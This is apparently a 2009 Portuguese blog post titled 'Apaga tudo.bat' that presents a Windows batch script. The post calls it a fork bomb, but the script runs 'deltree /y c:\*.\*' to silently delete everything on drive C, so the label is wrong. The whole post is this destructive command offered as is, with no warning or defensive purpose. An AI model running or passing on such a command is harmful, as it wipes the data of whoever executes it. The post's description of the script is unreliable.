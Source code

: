 ```yaml
---
id: 21
title: Apaga tudo.bat
date: 2009-09-28T18:54:02-03:00
author: Sidnei Weber
layout: post
permalink: /apaga-tudobat/
categories:
  - Windows
---
```

Fork bomb para Windows

```
@echo off

c:

deltree /y c:\*.\*
```
